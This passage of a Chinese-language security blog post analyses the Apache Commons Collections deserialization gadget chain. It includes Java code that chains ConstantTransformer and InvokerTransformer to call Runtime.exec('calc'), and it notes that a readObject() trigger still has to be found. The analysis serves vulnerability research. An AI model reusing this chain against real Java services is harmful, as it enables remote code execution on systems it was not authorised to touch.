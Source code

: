 ![20200119192613](https://y4er.com/img/uploads/20200119192613.png)

但是我们知道，在反序列化时都是执行 `readObject()` 函数就行了，但是直接序列化 `InvokerTransformer` 类我们还需要再次执行 `invokerTransformer.transform()` ，这是不现实的，并且Runtime.getRuntime() 我们也需要用反射构造。所以我们现在的目的就在于寻找看哪里调用了 `transform()` 方法。

最终找到了org.apache.commons.collections.functors.ChainedTransformer
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}

public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```
在这个transform中 `iTransformers[i]` 就是InvokerTransformer对象，构造代码。
```java
package payload;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

class CommonsCollections5Test {
    public static void main(String[] args) throws Exception {
//        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);
        chain.transform(null);
    }
}
```
![20200119192641](https://y4er.com/img/uploads/20200119192641.png)

不得不说，漏洞发现者的思维真的是秒，这个链首先 `new ConstantTransformer(Runtime.class)` 通过其构造方法拿到了Runtime类，然后通过InvokerTransformer的反射功能拿到getRuntime()，然后又用一个InvokerTransformer拿到了invoke()，最后再用InvokerTransformer拿到exec，达成执行命令的效果。整个链写成一句代码是这样的：
```java
((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
```
但是此时我们仍然需要调用transform()方法，才能触发rce。在实际情况中，我们希望执行readObject()之后就可以进行rce，那么我们找一下哪里重写了readObject()函数，并且**直接或者间接的**调用了transform()方法。
